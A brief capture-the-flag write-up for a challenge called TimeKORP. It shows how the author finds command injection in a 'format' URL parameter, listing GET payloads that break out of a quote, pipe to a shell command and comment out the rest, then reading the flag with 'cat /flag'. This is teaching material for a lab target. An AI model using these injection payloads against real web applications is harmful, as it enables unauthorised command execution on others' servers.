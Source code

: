 # TimeKORP

So we start off with this page:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

if i put a quote at the end of the url we get a blank response:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i capture the request, send it to the repeater and start looking how i can get an output via command injection:

```
GET /?format=%Y-%25m-%25d'|pwd
GET /?format=%Y-%25m-%25d'pwd
GET /?format=%Y-%25m-%25d'|pwd#
GET /?format=%Y-%25m-%25d'|pwd+
GET /?format=%Y-%25m-%25d'|pwd+%23
```

and the last payload works, i needed to comment out the rest of what the backend server was doing and url encode my request:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we just need to change the command to cat /flag and we get our flag
